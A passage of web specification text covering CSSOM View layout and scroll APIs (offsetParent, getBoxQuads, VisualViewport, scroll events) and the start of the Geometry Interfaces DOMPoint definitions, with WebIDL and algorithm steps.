The **`scrollParent`** attribute must return the result of running these steps:

1. If any of the following holds true, return null and terminate this algorithm:

  - The element does not have an associated box.
  - The element is the root element.
  - The element is the `body` element.
  - The element’s computed value of the `position` property is `fixed` and no ancestor establishes a fixed position containing block.
2. Let *ancestor* be the containing block of the element in the flat tree and repeat these substeps:

  1. If *ancestor* is the initial containing block, return the `scrollingElement` for the element’s document if it is not closed-shadow-hidden from the element, otherwise return null.
  2. If *ancestor* is not closed-shadow-hidden from the element, and is a scroll container, terminate this algorithm and return *ancestor*.
  3. If the computed value of the `position` property of *ancestor* is `fixed`, and no ancestor establishes a fixed position containing block, terminate this algorithm and return null.
  4. Let *ancestor* be the containing block of *ancestor* in the flat tree.

The **`offsetParent`** attribute must return the result of running these steps:

1. If any of the following holds true return null and terminate this algorithm:

  - The element does not have an associated box.
  - The element is the root element.
  - The element is the `body` element.
  - The element’s computed value of the `position` property is `fixed` and no ancestor establishes a fixed position containing block.
2. Let *ancestor* be the parent of the element in the flat tree and repeat these substeps:

  1. If *ancestor* is closed-shadow-hidden from the element, its computed value of the `position` property is `fixed`, and no ancestor establishes a fixed position containing block, terminate this algorithm and return null.
  2. If *ancestor* is not closed-shadow-hidden from the element and satisfies at least one of the following, terminate this algorithm and return *ancestor*.

    - The element is in a fixed position containing block, and *ancestor* is a containing block for fixed-positioned descendants.
    - The element is not in a fixed position containing block, and:

      - *ancestor* is a containing block of absolutely-positioned descendants (regardless of whether there are any absolutely-positioned descendants).
      - It is the `body` element.
      - The computed value of the `position` property of the element is `static` and the ancestor is one of the following HTML elements: `td`, `th`, or `table`.
    - The element has a different effective zoom than *ancestor*.
  3. If there is no more parent of *ancestor* in the flat tree, terminate this algorithm and return null.
  4. Let *ancestor* be the parent of *ancestor* in the flat tree.

The **`offsetTop`** attribute must return the result of running these steps:

1. If the element is the `body` element or does not have any associated box return zero and terminate this algorithm.
2. If the `offsetParent` of the element is null return the unscaled y-coordinate of the top border edge of the first box associated with the element, relative to the initial containing block origin, ignoring any transformsthat apply to the element and its ancestors and terminate this algorithm.
3. Return the unscaled result of subtracting the y-coordinate of the top padding edge of the first box associated with the `offsetParent` of the element from the y-coordinate of the top border edge of the first box associated with the element, relative to the initial containing block origin, ignoring any transforms that apply to the element and its ancestors.

   > **Note:** An inline element that consists of multiple line boxes will only have its first box considered.

The **`offsetLeft`** attribute must return the result of running these steps:

1. If the element is the `body` element or does not have any associated box return zero and terminate this algorithm.
2. If the `offsetParent` of the element is null return the unscaled x-coordinate of the left border edge of the first box associated with the element, relative to the initial containing block origin, ignoring any transforms that apply to the element and its ancestors, and terminate this algorithm.
3. Return the unscaled result of subtracting the x-coordinate of the left padding edge of the first box associated with the `offsetParent` of the element from the x-coordinate of the left border edge of the first box associated with the element, relative to the initial containing block origin, ignoring any transforms that apply to the element and its ancestors.

The **`offsetWidth`** attribute must return the result of running these steps:

1. If the element does not have any associated box return zero and terminate this algorithm.
2. Return the unscaled width of the axis-aligned bounding box of the border boxes of all fragments generated by the element’s principal box, ignoring any transforms that apply to the element and its ancestors.

   If the element’s principal box is an inline-level box which was "split" by a block-level descendant, also include fragments generated by the block-level descendants, unless they are zero width or height.

The **`offsetHeight`** attribute must return the result of running these steps:

1. If the element does not have any associated box return zero and terminate this algorithm.
2. Return the unscaled height of the axis-aligned bounding box of the border boxes of all fragments generated by the element’s principal box, ignoring any transforms that apply to the element and its ancestors.

   If the element’s principal box is an inline-level box which was "split" by a block-level descendant, also include fragments generated by the block-level descendants, unless they are zero width or height.

### 8. Extensions to the `HTMLImageElement` Interface {#cssom-view-1:extensions-to-the-htmlimageelement-interface}

```webidl
partial interface HTMLImageElement {
  readonly attribute long x;
  readonly attribute long y;
};
```

The **`x`** attribute, on getting, must return the scaled x-coordinate of the left border edge of the first box associated with the element, relative to the initial containing block origin, ignoring any transforms that apply to the element and its ancestors, or zero if there is no box.

The **`y`** attribute, on getting, must return the scaled y-coordinate of the top border edge of the first box associated with the element, relative to the initial containing block origin, ignoring any transforms that apply to the element and its ancestors, or zero if there is no box.

### 9. Extensions to the `Range` Interface {#cssom-view-1:extensions-to-the-range-interface}

```webidl
partial interface Range {
  DOMRectList getClientRects();
  [NewObject] DOMRect getBoundingClientRect();
};
```

The **`getClientRects()`** method, when invoked, must return an empty `DOMRectList` object if the range is not in the document and otherwise a `DOMRectList` object containing a list of `DOMRect` objects in content order that matches the following constraints:

- For each element selected by the range, whose parent is not selected by the range, include the border areas returned by invoking `getClientRects()` on the element.
- For each `Text` node selected or partially selected by the range (including when the boundary-points are identical), include scaled `DOMRect` object (for the part that is selected, not the whole line box). The bounds of these `DOMRect` objects are computed using font metrics; thus, for horizontal writing, the vertical dimension of each box is determined by the font ascent and descent, and the horizontal dimension by the text advance width. If the range covers a partial typographic character unit (e.g. half a surrogate pair or part of a grapheme cluster), the full typographic character unit must be included for the purpose of computing the bounds of the relevant `DOMRect`. [CSS-TEXT-3] The transforms that apply to the ancestors are applied.

> **Note:** The `DOMRect` objects returned by `getClientRects()` are not live.

The **`getBoundingClientRect()`** method, when invoked, must return the result of the following algorithm:

1. Let *list* be the result of invoking `getClientRects()` on the same range this method was invoked on.
2. If *list* is empty return a `DOMRect` object whose `x`, `y`, `width` and `height` members are zero.
3. If all rectangles in *list* have zero width or height, return the first rectangle in *list*.
4. Otherwise, return a `DOMRect` object describing the smallest rectangle that includes all of the rectangles in *list* of which the height or width is not zero.

> **Note:** The `DOMRect` object returned by `getBoundingClientRect()` is not live.

### 10. Extensions to the `MouseEvent` Interface {#cssom-view-1:extensions-to-the-mouseevent-interface}

> **Issue:** The object IDL fragment redefines some members. Can we resolve this somehow?

```webidl
partial interface MouseEvent {
  readonly attribute double screenX;
  readonly attribute double screenY;
  readonly attribute double pageX;
  readonly attribute double pageY;
  readonly attribute double clientX;
  readonly attribute double clientY;
  readonly attribute double x;
  readonly attribute double y;
  readonly attribute double offsetX;
  readonly attribute double offsetY;
};

partial dictionary MouseEventInit {
  double screenX = 0.0;
  double screenY = 0.0;
  double clientX = 0.0;
  double clientY = 0.0;
};
```

The **`screenX`** attribute must return the x-coordinate of the position where the event occurred relative to the origin of the Web-exposed screen area.

The **`screenY`** attribute must return the y-coordinate of the position where the event occurred relative to the origin of the Web-exposed screen area.

The **`pageX`** attribute must follow these steps:

1. If the event’s dispatch flag is set, return the horizontal coordinate of the position where the event occurred relative to the origin of the initial containing block and terminate these steps.
2. Let *offset* be the value of the `scrollX` attribute of the event’s associated `Window` object, if there is one, or zero otherwise.
3. Return the sum of *offset* and the value of the event’s `clientX` attribute.

The **`pageY`** attribute must follow these steps:

1. If the event’s dispatch flag is set, return the vertical coordinate of the position where the event occurred relative to the origin of the initial containing block and terminate these steps.
2. Let *offset* be the value of the `scrollY` attribute of the event’s associated `Window` object, if there is one, or zero otherwise.
3. Return the sum of *offset* and the value of the event’s `clientY` attribute.

The **`clientX`** attribute must return the x-coordinate of the position where the event occurred relative to the origin of the viewport.

The **`clientY`** attribute must return the y-coordinate of the position where the event occurred relative to the origin of the viewport.

The **`x`** attribute must return the value of `clientX`.

The **`y`** attribute must return the value of `clientY`.

The **`offsetX`** attribute must follow these steps:

1. If the event’s dispatch flag is set, return the x-coordinate of the position where the event occurred relative to the origin of the padding edge of the target node, ignoring the transforms that apply to the element and its ancestors, and terminate these steps.
2. Return the value of the event’s `pageX` attribute.

The **`offsetY`** attribute must follow these steps:

1. If the event’s dispatch flag is set, return the y-coordinate of the position where the event occurred relative to the origin of the padding edge of the target node, ignoring the transforms that apply to the element and its ancestors, and terminate these steps.
2. Return the value of the event’s `pageY` attribute.

### 11. Geometry {#cssom-view-1:geometry}

#### 11.1. The `GeometryUtils` Interface {#cssom-view-1:the-geometryutils-interface}

```webidl
enum CSSBoxType { "margin", "border", "padding", "content" };
dictionary BoxQuadOptions {
  CSSBoxType box = "border";
  GeometryNode relativeTo;
};

dictionary ConvertCoordinateOptions {
  CSSBoxType fromBox = "border";
  CSSBoxType toBox = "border";
};

interface mixin GeometryUtils {
  sequence<DOMQuad> getBoxQuads(optional BoxQuadOptions options = {});
  DOMQuad convertQuadFromNode(DOMQuadInit quad, GeometryNode from, optional ConvertCoordinateOptions options = {});
  DOMQuad convertRectFromNode(DOMRectReadOnly rect, GeometryNode from, optional ConvertCoordinateOptions options = {});
  DOMPoint convertPointFromNode(DOMPointInit point, GeometryNode from, optional ConvertCoordinateOptions options = {});
};

Text includes GeometryUtils; // like Range
Element includes GeometryUtils;
CSSPseudoElement includes GeometryUtils;
Document includes GeometryUtils;

typedef (Text or Element or CSSPseudoElement or Document) GeometryNode;
```

The `GeometryUtils` methods operate on a node’s local box geometry. The `getBoxQuads()` method returns one `DOMQuad` per relevant box fragment, in flat tree order. Unless `relativeTo` is specified, the returned coordinates are expressed relative to the layout viewport.

For the purpose of the `GeometryUtils` methods, the **associated document** of a `Document` is itself, the associated document of a `CSSPseudoElement` is its `element`’s node document, and the associated document of any other `GeometryNode` is its node document.

To **check the documents for coordinate conversion** given two `GeometryNode`s *node* and *from*:

1. Let *nodeDocuments* be a list containing *node*’s associated document. While the last document in *nodeDocuments* has a container document, append that container document to *nodeDocuments*.
2. Let *fromDocuments* be a list constructed in the same way for *from*.
3. Let *documents* contain the shortest prefixes of *nodeDocuments* and *fromDocuments* that end with a document common to both lists. If there is no such document, let *documents* contain only the first item of each list.
4. If any document in *documents* is not same origin with the associated document of *node*, then throw a `SecurityError`.

For a `CSSPseudoElement`, the `GeometryUtils` methods operate on the boxes generated by the pseudo-element itself. This includes the boxes of generated content pseudo-elements such as `::before` and `::after`, including when those boxes are out-of-flow, for example due to absolute positioning. If the `CSSPseudoElement` is a sub-pseudo-element, the methods operate on the sub-pseudo-element’s own boxes and fragments. If the pseudo-element generates no boxes, `getBoxQuads()` returns an empty list.

To **get the complete transform** of a `GeometryNode` *node* relative to a `GeometryNode` *ancestor*, run the following steps:

1. Let *current* be *node*.
2. Let *transformationMatrix* be a new `DOMMatrix`.
3. While *current* is not null:

  1. If *current* is *ancestor*, return *transformationMatrix*.
  2. Let *nextAncestor* be null.
  3. If *current* is an `Element`, then:

    1. Let *currentTransformationMatrix* be a new `DOMMatrix` representing the current transformation matrix of *current*. [CSS-TRANSFORMS-1]
    2. Set *transformationMatrix* to the result of multiplying *currentTransformationMatrix* by *transformationMatrix*.
    3. If there is an element that establishes the containing block of *current*, let *nextAncestor* be that element. Otherwise, let *nextAncestor* be *current*’s node document.
    4. If *nextAncestor* is a `Document`, let *offsetX* be the horizontal offset and *offsetY* be the vertical offset from the border edge of *current* to the origin of the initial containing block, ignoring any transforms that apply to *current* and its ancestors. Otherwise, let *offsetX* be the horizontal offset and *offsetY* be the vertical offset from the border edge of *current* to the border edge of *nextAncestor*, ignoring any transforms that apply to *current* and its ancestors.
    5. Let *translationMatrix* be a new `DOMMatrix` representing a translation by *offsetX* and *offsetY*.
    6. Set *transformationMatrix* to the result of multiplying *translationMatrix* by *transformationMatrix*.
  4. Otherwise, if *current* is a `Text`, set *nextAncestor* to *current*’s parent element.
  5. Otherwise, if *current* is a `CSSPseudoElement`, set *nextAncestor* to *current*’s `parent`.
  6. Set *current* to *nextAncestor*.
4. Return *transformationMatrix*.

To **adjust a point to the border box** given a `DOMPoint` *point*, a `GeometryNode` *node*, and a `CSSBoxType` *box*, run the following steps:

1. Let *adjustedPoint* be a new `DOMPoint` with the same `x` and `y` as *point*.
2. If *node* is a `Document` or a `Text`, return *adjustedPoint*.
3. If *box* is `"margin"`, adjust *adjustedPoint* so that it refers to the same physical point in *node*’s local coordinate space, but with coordinates measured from the top-left corner of *node*’s border box rather than the top-left corner of its margin box.
4. If *box* is `"padding"`, adjust *adjustedPoint* so that it refers to the same physical point in *node*’s local coordinate space, but with coordinates measured from the top-left corner of *node*’s border box rather than the top-left corner of its padding box.
5. If *box* is `"content"`, adjust *adjustedPoint* so that it refers to the same physical point in *node*’s local coordinate space, but with coordinates measured from the top-left corner of *node*’s border box rather than the top-left corner of its content box.
6. Return *adjustedPoint*.

To **adjust a point from the border box** given a `DOMPoint` *point*, a `GeometryNode` *node*, and a `CSSBoxType` *box*, run the following steps:

1. Let *adjustedPoint* be a new `DOMPoint` with the same `x` and `y` as *point*.
2. If *node* is a `Document` or a `Text`, return *adjustedPoint*.
3. If *box* is `"margin"`, adjust *adjustedPoint* so that it refers to the same physical point in *node*’s local coordinate space, but with coordinates measured from the top-left corner of *node*’s margin box rather than the top-left corner of its border box.
4. If *box* is `"padding"`, adjust *adjustedPoint* so that it refers to the same physical point in *node*’s local coordinate space, but with coordinates measured from the top-left corner of *node*’s padding box rather than the top-left corner of its border box.
5. If *box* is `"content"`, adjust *adjustedPoint* so that it refers to the same physical point in *node*’s local coordinate space, but with coordinates measured from the top-left corner of *node*’s content box rather than the top-left corner of its border box.
6. Return *adjustedPoint*.

The **`getBoxQuads(options)`** method must run the following steps:

1. Let *node* be this.
2. If *node* is a `Document`, let *document* be *node*.
3. Otherwise, if *node* is a `CSSPseudoElement`, let *document* be *node*’s `element`’s node document.
4. Otherwise, let *document* be *node*’s node document.
5. If *options*.`relativeTo` is specified, let *relativeTo* be *options*.`relativeTo`. Otherwise, let *relativeTo* be *document*.
6. Let *result* be an empty list of `DOMQuad` objects.
7. If *node* is a `Document`, then:

  1. Let *rect* be a `DOMRect` whose `x` and `y` are 0, and whose `width` and `height` are the width and height of the layout viewport.
  2. Let *quad* be the result of invoking `fromRect()` with *rect*.
  3. Append the result of invoking the `convertQuadFromNode()` method on *relativeTo* with *quad* and *document* to *result*.
8. Otherwise, if *node* is a `Text`, then:

  1. For each `DOMRect` *rect* returned by invoking the `getClientRects()` method on a `Range` whose boundary-points select exactly *node*, in content order:

    1. Let *quad* be the result of invoking `fromRect()` with *rect*.
    2. Append the result of invoking the `convertQuadFromNode()` method on *relativeTo* with *quad* and *document* to *result*.
9. Otherwise, for each box fragment of *node*, in flat tree order, run the following steps:

  1. Let *rect* be a `DOMRect` describing the border area of the box fragment, positioned in the fragment’s local coordinate space with its border edge at `x` = 0 and `y` = 0.
  2. If *options*.`box` is `"margin"`, let *rect* instead be a `DOMRect` describing the fragment’s margin area in the same local coordinate space, with the fragment’s border edge still at `x` = 0 and `y` = 0.
  3. If *options*.`box` is `"padding"`, let *rect* instead be a `DOMRect` describing the fragment’s padding area in the same local coordinate space, with the fragment’s border edge still at `x` = 0 and `y` = 0.
  4. If *options*.`box` is `"content"`, let *rect* instead be a `DOMRect` describing the fragment’s content area in the same local coordinate space, with the fragment’s border edge still at `x` = 0 and `y` = 0.
  5. Let *quad* be the result of invoking `fromRect()` with *rect*.
  6. Append the result of invoking the `convertQuadFromNode()` method on *relativeTo* with *quad* and *node* to *result*.
10. Return *result*.

   > **Note:** The points are flattened (3D transforms project to z=0), similar to `getClientRects()`. `p1` is always the physical top-left corner of the box, even in right-to-left writing modes. For `Document` and `Text` nodes, all four values of `box` return the same geometry. If a transformation matrix is not invertible (e.g. due to a `scale()` of 0), the resulting coordinates are implementation-defined.

The **`convertQuadFromNode(quad, from, options)`** method must run the following steps:

1. Let *node* be this.
2. Let *convertedQuad* be the result of invoking `fromQuad()` with *quad*.
3. Let *p1* be the result of invoking `convertPointFromNode()` on *node* with *convertedQuad*.`p1`, *from*, and *options*.
4. Let *p2* be the result of invoking `convertPointFromNode()` on *node* with *convertedQuad*.`p2`, *from*, and *options*.
5. Let *p3* be the result of invoking `convertPointFromNode()` on *node* with *convertedQuad*.`p3`, *from*, and *options*.
6. Let *p4* be the result of invoking `convertPointFromNode()` on *node* with *convertedQuad*.`p4`, *from*, and *options*.
7. Return a new `DOMQuad` with *p1*, *p2*, *p3*, and *p4*.

The **`convertRectFromNode(rect, from, options)`** method must run the following steps:

1. Let *node* be this.
2. Let *quad* be the result of invoking `fromRect()` with *rect*.
3. Return the result of invoking `convertQuadFromNode()` on *node* with *quad*, *from*, and *options*.

The **`convertPointFromNode(point, from, options)`** method returns a point flattened to 2D and must run the following steps, ignoring the `z` and `w` members of *point*:

1. Let *node* be this.
2. Check the documents for coordinate conversion given *node* and *from*.
3. Let *thisTransformToViewport* be the result of getting the complete transform of *node* relative to null.
4. Let *fromTransformToViewport* be the result of getting the complete transform of *from* relative to null.
5. Let *adjustedPoint* be the result of adjusting a point to the border box given *point*, *from*, and *options*.`fromBox`.
6. Set *adjustedPoint* to the result of transforming *adjustedPoint* by *fromTransformToViewport*.
7. Set *adjustedPoint* to the result of transforming *adjustedPoint* by the inverse of *thisTransformToViewport*.
8. Return the result of adjusting a point from the border box given *adjustedPoint*, *node*, and *options*.`toBox`.

### 12. VisualViewport {#cssom-view-1:visualViewport}

#### 12.1. The `VisualViewport` Interface {#cssom-view-1:the-visualviewport-interface}

```webidl
[Exposed=Window]
interface VisualViewport : EventTarget {
  readonly attribute double offsetLeft;
  readonly attribute double offsetTop;

  readonly attribute double pageLeft;
  readonly attribute double pageTop;

  readonly attribute double width;
  readonly attribute double height;

  readonly attribute double scale;

  attribute EventHandler onresize;
  attribute EventHandler onscroll;
  attribute EventHandler onscrollend;
};
```

The **`offsetLeft`** attribute must run these steps:

1. If the visual viewport’s associated document is not fully active, return 0.
2. Otherwise, return the offset of the left edge of the visual viewport from the left edge of the layout viewport.

The **`offsetTop`** attribute must run these steps:

1. If the visual viewport’s associated document is not fully active, return 0.
2. Otherwise, return the offset of the top edge of the visual viewport from the top edge of the layout viewport.

The **`pageLeft`** attribute must run these steps:

1. If the visual viewport’s associated document is not fully active, return 0.
2. Otherwise, return the offset of the left edge of the visual viewport from the left edge of the initial containing block of the layout viewport’s document.

The **`pageTop`** attribute must run these steps:

1. If the visual viewport’s associated document is not fully active, return 0.
2. Otherwise, return the offset of the top edge of the visual viewport from the top edge of the initial containing block of the layout viewport’s document.

The **`width`** attribute must run these steps:

1. If the visual viewport’s associated document is not fully active, return 0.
2. Otherwise, return the width of the visual viewport excluding the width of any rendered vertical classic scrollbar that is fixed to the visual viewport.

> **Note:** Since this value is returned in CSS pixels, the value will decrease in magnitude if either page zoom or the scale factor is increased.

> **Note:** A scrollbar that is fixed to the visual viewport is one that does not change size or location as the visual viewport is zoomed and panned. Because this value is in CSS pixels, when excluding the scrollbar width the UA must account for how large the scrollbar is as measured in CSS pixels. That is, the amount excluded decreases when zooming in and increases when zooming out.

The **`height`** attribute must run these steps:

1. If the visual viewport’s associated document is not fully active, return 0.
2. Otherwise, return the height of the visual viewport excluding the height of any rendered horizontal classic scrollbar that is fixed to the visual viewport.

The **`scale`** attribute must run these steps:

1. If the visual viewport’s associated document is not fully active, return 0 and abort these steps.
2. If there is no output device, return 1 and abort these steps.
3. Otherwise, return the visual viewport’s scale factor.

**`onresize`** is the event handler IDL attribute for the resize event.

**`onscroll`** is the event handler IDL attribute for the scroll event.

**`onscrollend`** is the event handler IDL attribute for the scrollend event.

### 13. Events {#cssom-view-1:events}

#### 13.1. Resizing viewports {#cssom-view-1:resizing-viewports}

This section integrates with the event loop defined in HTML. [HTML]

When asked to **run the resize steps** for a `Document` *doc*, run these steps:

1. If *doc*’s viewport has had its width or height changed (e.g. as a result of the user resizing the browser window, or changing page zoom, or an `iframe` element’s dimensions are changed) since the last time these steps were run, fire an event named resize at the `Window` object associated with *doc*.
2. If the `VisualViewport` associated with *doc* has had its scale, width, or height properties changed since the last time these steps were run, fire an event named resize at the `VisualViewport`.

#### 13.2. Scrolling {#cssom-view-1:scrolling-events}

This section integrates with the event loop defined in HTML. [HTML]

Each `Document` has an associated list of **pending scroll events**, which stores pairs of (`EventTarget`, `DOMString`), initially empty.

Whenever a viewport gets scrolled (whether in response to user interaction or by an API), the user agent must run these steps:

1. Let *doc* be the viewport’s associated `Document`.
2. If *doc* is a snap container, run the steps to update scrollsnapchanging targets for *doc* with *doc*’s eventual snap target in the block axis as newBlockTarget and *doc*’s eventual snap target in the inline axis as newInlineTarget.
3. If (*doc*, `"scroll"`) is already in *doc*’s pending scroll events, abort these steps.
4. Append (*doc*, `"scroll"`) to *doc*’s pending scroll events.

Whenever an element gets scrolled (whether in response to user interaction or by an API), the user agent must run these steps:

1. Let *doc* be the element’s node document.
2. If the element is a snap container, run the steps to update scrollsnapchanging targets for the element with the element’s eventual snap target in the block axis as newBlockTarget and the element’s eventual snap target in the inline axis as newInlineTarget.
3. If (*element*, `"scroll"`) is already in *doc*’s pending scroll events, abort these steps.
4. Append (*element*, `"scroll"`) to *doc*’s pending scroll events.

Whenever a visual viewport gets scrolled (whether in response to user interaction or by an API), the user agent must run these steps:

1. Let *vv* be the `VisualViewport` object that was scrolled.
2. Let *doc* be *vv*’s associated document.
3. If (*vv*, `"scroll"`) is already in *doc*’s pending scroll events, abort these steps.
4. Append (*vv*, `"scroll"`) to *doc*’s pending scroll events.

When asked to **run the scroll steps** for a `Document` *doc*, run these steps:

> **Issue:** In what order are scrollend events dispatched? Ordered based on scroll start or scroll completion?

1. For each scrolling box *box* that was scrolled:

  1. If *box* belongs to a viewport, let *doc* be the viewport’s associated `Document` and *target* be the viewport. If *box* belongs to a `VisualViewport`, let *doc* be the `VisualViewport`’s associated document and *target* be the `VisualViewport`. Otherwise, *box* belongs to an element and let *doc* be the element’s node document and *target* be the element.
  2. If *box* belongs to a snap container, *snapcontainer*, run the update scrollsnapchange targets steps for *snapcontainer*.
  3. If (*target*, `"scrollend"`) is already in *doc*’s pending scroll events, abort these steps.
  4. Append (*target*, `"scrollend"`) to *doc*’s pending scroll events.
2. For each item (*target*, *type*) in *doc*’s pending scroll events, in the order they were added to the list, run these substeps:

  1. If *target* is a `Document`, and *type* is `"scroll"` or `"scrollend"`, fire an event named *type* that bubbles at *target*.
  2. Otherwise, if *type* is `"scrollsnapchange"`, then:

    1. Let *blockTarget* and *inlineTarget* be null initially.
    2. If the scrollsnapchangeTargetBlock associated with *target* is a pseudo-element, set *blockTarget* to the owning element of that scrollsnapchangeTargetBlock.
    3. Otherwise, set *blockTarget* to that scrollsnapchangeTargetBlock.
    4. If the scrollsnapchangeTargetInline associated with *target* is a pseudo-element, set *inlineTarget* to the owning element of that scrollsnapchangeTargetInline.
    5. Otherwise, Set *inlineTarget* to that scrollsnapchangeTargetInline.
    6. Fire a `SnapEvent`, *snapevent*, named `scrollsnapchange` at *target* and let *snapevent*’s `snapTargetBlock` and `snapTargetInline` attributes be *blockTarget* and *inlineTarget* respectively.
  3. Otherwise, if *type* is `"scrollsnapchanging"`, then:

    1. Let *blockTarget* and *inlineTarget* be null initially.
    2. If the scrollsnapchanging block-axis target associated with *target* is a pseudo-element, set *blockTarget* to the owning element of that scrollsnapchanging block-axis target.
    3. Otherwise, set *blockTarget* to that scrollsnapchanging block-axis target.
    4. If the scrollsnapchanging inline-axis target associated with *target* is a pseudo-element, set *inlineTarget* to the owning element of that scrollsnapchanging inline-axis target.
    5. Otherwise, set *inlineTarget* to that scrollsnapchanging inline-axis target.
    6. Fire a `SnapEvent`, *snapevent*, named `scrollsnapchanging` at *target* and let *snapevent*’s `snapTargetBlock` and `snapTargetInline` attributes be *blockTarget* and *inlineTarget*, respectively.
  4. Otherwise, fire an event named *type* at *target*.
3. Empty *doc*’s pending scroll events.

#### 13.3. Event summary {#cssom-view-1:event-summary}

*This section is non-normative.*

| Event | Interface | Interesting targets | Description |
| --- | --- | --- | --- |
| **`resize`** | `Event` | `Window`, `VisualViewport` | Fired at the `Window` when the viewport is resized. Fired at `VisualViewport` when the visual viewport is resized or the layout viewport is scaled. |
| **`scroll`** | `Event` | `VisualViewport`, `Document`, elements | Fired at the `VisualViewport`, `Document` or element when the `VisualViewport`, viewport, or element is scrolled, respectively. |
| **`scrollend`** | `Event` | `Document`, elements, `VisualViewport` | Fired at the `VisualViewport`, `Document`, or element when a scroll is completed: the `VisualViewport`, viewport, or element has been scrolled, the scroll sequence has ended and any scroll offset changes have been applied. |

### 14. Post-Layout State Snapshotting {#cssom-view-1:post-layout-snapshot}

Some CSS features use post-layout state, like scroll position, as input to the next style and layout update.

When asked to **run snapshot post-layout state steps** for a `Document` *doc*, run these steps:

1. For each CSS feature that needs to snapshot post-layout state, take a snapshot of the relevant state in *doc*.

The state that is snapshot is defined in other specifications. These steps must not invalidate *doc* or any other `Document`s in such a way that other post-layout snapshotting steps can observe that such snapshotting happened. It follows that the order of which such snapshotting takes place must not matter.

---

## Geometry Interfaces Module Level 1 {#geometry-1}

- **Shortname:** `geometry-1`
- **Editor's Draft:** [https://drafts.csswg.org/geometry-1/](https://drafts.csswg.org/geometry-1/)
- **Published TR:** [https://www.w3.org/TR/geometry-1/](https://www.w3.org/TR/geometry-1/)
- **W3C Status:** CRD (refining)
- **Last Edited:** 2026-10-08

### 1. Introduction {#geometry-1:intro}

*This section is non-normative.*

This specification describes several geometry interfaces for the representation of points, rectangles, quadrilaterals and transformation matrices with the dimension of 3x2 and 4x4.

The SVG interfaces `SVGPoint`, `SVGRect` and `SVGMatrix` are aliasing the here defined interfaces in favor for common interfaces used by SVG, Canvas 2D Context and CSS Transforms. [SVG11] [HTML] [CSS3-TRANSFORMS]

### 2. The DOMPoint interfaces {#geometry-1:DOMPoint}

A 2D or a 3D **point** can be represented by the following WebIDL interfaces:

```webidl
[Exposed=(Window,Worker),
 Serializable]
interface DOMPointReadOnly {
    constructor(optional unrestricted double x = 0, optional unrestricted double y = 0,
            optional unrestricted double z = 0, optional unrestricted double w = 1);

    [NewObject] static DOMPointReadOnly fromPoint(optional DOMPointInit other = {});

    readonly attribute unrestricted double x;
    readonly attribute unrestricted double y;
    readonly attribute unrestricted double z;
    readonly attribute unrestricted double w;

    [NewObject] DOMPoint matrixTransform(optional DOMMatrixInit matrix = {});

    [Default] object toJSON();
};

[Exposed=(Window,Worker),
 Serializable,
 LegacyWindowAlias=SVGPoint]
interface DOMPoint : DOMPointReadOnly {
    constructor(optional unrestricted double x = 0, optional unrestricted double y = 0,
            optional unrestricted double z = 0, optional unrestricted double w = 1);

    [NewObject] static DOMPoint fromPoint(optional DOMPointInit other = {});

    inherit attribute unrestricted double x;
    inherit attribute unrestricted double y;
    inherit attribute unrestricted double z;
    inherit attribute unrestricted double w;
};

dictionary DOMPointInit {
    unrestricted double x = 0;
    unrestricted double y = 0;
    unrestricted double z = 0;
    unrestricted double w = 1;
};
```

The following algorithms assume that `DOMPointReadOnly` objects have the internal member variables **x coordinate**, **y coordinate**, **z coordinate** and **w perspective**. `DOMPointReadOnly` as well as the inheriting interface `DOMPoint` must be able to access and set the value of these variables.

An interface returning an `DOMPointReadOnly` object by an attribute or function may be able to modify internal member variable values. Such an interface must specify this ability explicitly in prose.

Internal member variables must not be exposed in any way.

The **`DOMPointReadOnly(x, y, z, w)`** and **`DOMPoint(x, y, z, w)`** constructors, when invoked, must run the following steps:

1. Let *point* be a new `DOMPointReadOnly` or `DOMPoint` object as appropriate.
2. Set *point*’s variables x coordinate to *x*, y coordinate to *y*, z coordinate to *z* and w perspective to *w*.
3. Return *point*.

The **`fromPoint(other)`** static method on `DOMPointReadOnly` must create a `DOMPointReadOnly` from the dictionary *other*.

The **`fromPoint(other)`** static method on `DOMPoint` must create a `DOMPoint` from the dictionary *other*.

To **create a `DOMPointReadOnly` from a dictionary** *other*, or to **create a `DOMPoint` from a dictionary** *other*, follow these steps:

1. Let *point* be a new `DOMPointReadOnly` or `DOMPoint` as appropriate.
2. Set *point*’s variables x coordinate to *other*’s `x` dictionary member, y coordinate to *other*’s `y` dictionary member, z coordinate to *other*’s `z` dictionary member and w perspective to *other*’s `w` dictionary member.
3. Return *point*.

The **`x`** attribute, on getting, must return the x coordinate value. For the `DOMPoint` interface, setting the `x` attribute must set the x coordinate to the new value.

The **`y`** attribute, on getting, must return the y coordinate value. For the `DOMPoint` interface, setting the `y` attribute must set the y coordinate to the new value.

The **`z`** attribute, on getting, must return the z coordinate value. For the `DOMPoint` interface, setting the `z` attribute must set the z coordinate to the new value.

The **`w`** attribute, on getting, must return the w perspective value. For the `DOMPoint` interface, setting the `w` attribute must set the w perspective to the new value.

The **`matrixTransform(matrix)`** method, when invoked, must run the following steps:

1. Let *matrixObject* be the result of invoking create a `DOMMatrix` from the dictionary *matrix*.
2. Return the result of invoking transform a point with a matrix, given the current point and *matrixObject*. The current point does not get modified.

> **Example:** In this example the method `matrixTransform()` on a `DOMPoint` instance is called with a `DOMMatrix` instance as argument.
>
> ```
> var point = new DOMPoint(5, 4);
> var matrix = new DOMMatrix([2, 0, 0, 2, 10, 10]);
> var transformedPoint = point.matrixTransform(matrix);
> ```
>
> The *point* variable is set to a new `DOMPoint` object with x coordinate initialized to 5 and y coordinate initialized to 4. This new `DOMPoint` is now scaled and the translated by *matrix*. This resulting *transformedPoint* has the x coordinate 20 and y coordinate 18.

#### 2.1. Transforming a point with a matrix {#geometry-1:transforming-a-point-with-a-matrix}

To **transform a point with a matrix**, given *point* and *matrix*:

1. Let *x* be *point*’s x coordinate.
2. Let *y* be *point*’s y coordinate.
3. Let *z* be *point*’s z coordinate.
4. Let *w* be *point*’s w perspective.
5. Let *pointVector* be a new column vector with the elements being *x*, *y*, *z*, and *w*, respectively.

   xyzw
6. Set *pointVector* to *pointVector* pre-multiplied by *matrix*.
7. Let *transformedPoint* be a new `DOMPoint` object.
8. Set *transformedPoint*’s x coordinate to *pointVector*’s first element.
9. Set *transformedPoint*’s y coordinate to *pointVector*’s second element.
10. Set *transformedPoint*’s z coordinate to *pointVector*’s third element.
11. Set *transformedPoint*’s w perspective to *pointVector*’s fourth element.
12. Return *transformedPoint*.

> **Note:** If *matrix*’s is 2D is true, *point*’s z coordinate is `0` or `-0`, and *point*’s w perspective is `1`, then this is a 2D transformation. Otherwise this is a 3D transformation.

### 3. The DOMRect interfaces {#geometry-1:DOMRect}

